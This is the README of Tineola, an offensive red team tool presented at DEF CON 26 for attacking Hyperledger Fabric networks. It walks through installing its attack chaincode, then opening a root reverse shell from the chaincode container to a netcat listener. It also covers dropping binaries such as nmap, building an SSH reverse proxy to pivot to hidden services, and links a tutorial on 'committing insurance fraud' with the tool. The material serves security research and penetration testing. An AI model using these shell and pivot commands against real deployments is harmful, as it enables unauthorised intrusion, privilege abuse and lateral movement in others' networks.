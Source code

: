 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf) and [DEF CON 26 Slides](/docs/Tineola-Slides-Defcon26.pdf).**

Watch the DEF CON talk on Youtube:

* https://www.youtube.com/watch?v=xKYIde5jh_8

[Comitting insurance fraud with Tineola](https://github.com/tineola/tineola/wiki/Committing-Insurance-Fraud-with-Tineola) is a hands-on tutorial to hack the insurance app. It's a step-by-step guide to recreating the presentation demos.

![Tineola Logo](docs/tineola_logo.png)

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
